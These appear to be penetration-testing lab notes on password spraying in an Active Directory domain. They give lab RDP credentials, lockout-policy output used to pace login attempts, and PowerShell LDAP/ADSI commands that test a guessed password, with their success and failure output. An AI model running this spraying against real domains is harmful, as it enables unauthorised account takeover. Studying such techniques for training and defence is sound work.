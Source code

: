 ### Password Attacks
#### Scenario 
RDP with:
Creds: `jeff` pass: `HenchmanPutridBonbon11`

Obtain account policy before bruteforcing. 

```hlt:7,8,9
PS C:\Users\jeff> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          1
Maximum password age (days):                          42
Minimum password length:                              7
Length of password history maintained:                24
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        WORKSTATION
The command completed successfully.
```

- Can attempt 4 logins before lockout
- Wait time of 30 mins after failed login
- We can attempt 192 logins in a 24-hour period against every domain user

##### Password Spraying Using LDAP and ADSI (_Low and Slow_)
```
PS C:\Users\jeff> $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
  
PS C:\Users\jeff> $PDC = ($domainObj.PdcRoleOwner).Name

PS C:\Users\jeff> $SearchString = "LDAP://"

PS C:\Users\jeff> $SearchString += $PDC + "/"

PS C:\Users\jeff> $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

PS C:\Users\jeff> $SearchString += $DistinguishedName

PS C:\Users\jeff> New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```

If password is correct, object will be created like so:
```
distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC1.corp.com/DC=corp,DC=com
```
If password is incorrect, object will not be created:
```
format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or
password is incorrect.
"
    + CategoryInfo          : NotSpecified: (:) [format-default], ExtendedTypeSystemException
    + FullyQualifiedErrorId : CatchFromBaseGetMember,Microsoft.PowerShell.Commands.FormatDefaultCommand
```

